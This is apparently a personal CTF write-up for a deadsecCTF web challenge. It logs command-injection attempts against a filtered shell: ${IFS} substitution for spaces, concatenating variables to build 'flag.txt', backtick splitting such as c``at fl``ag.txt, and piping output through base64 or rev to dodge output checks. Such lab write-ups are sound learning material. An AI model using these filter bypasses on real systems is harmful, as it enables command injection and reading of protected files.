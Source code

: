 ```yaml
---
title: "deadsecCTF"
date: 2023-05-22T12:13:32+05:30
description: "I happened to pop this open while travelling and looked at a web problem..."
tags: [web]
---
```


## Dont' hack my website

### My Attempt

echo & head both work with no spaces, id, whoami

Running `df` will show us

```bash
Filesystem     1K-blocks    Used Available Use% Mounted on
overlay         98831908 6164312  92651212   7% /
/dev/sda1       98831908 6164312  92651212   7% /flag.txt
none                4096       0      4096   0% /tmp
none                4096       0      4096   0% /run
```

Anything containing `flag.txt` won't work.

```bash
head${IFS}&&${IFS}pwd
/app
```

```txt
head${IFS}&&${IFS}a=fl&&${IFS}b=ag&&${IFS}c=.t&&${IFS}d=xt

a=fl${IFS}b=ag${IFS}c=.t${IFS}d=xt${IFS}&&${IFS}echo${IFS}$a$b$c$d
fl b=ag c=.t d=xt

a=fl${IFS}ag${IFS}.t${IFS}xt${IFS}&&${IFS}echo${IFS}$a$b$c$d
fl ag .t xt
```

Somehow strip out the whitespace????

### Finished Solve Via Write-Ups

I read afterward that you can use ```c``at fl``ag.txt``` to properly format the so you can get around the `flag` check. In a similar vein, the output also can't have the flag in plaintext. I saw some solutions that used `|base64` or `|rev` to ensure that the output didn't contain any unwated chars.
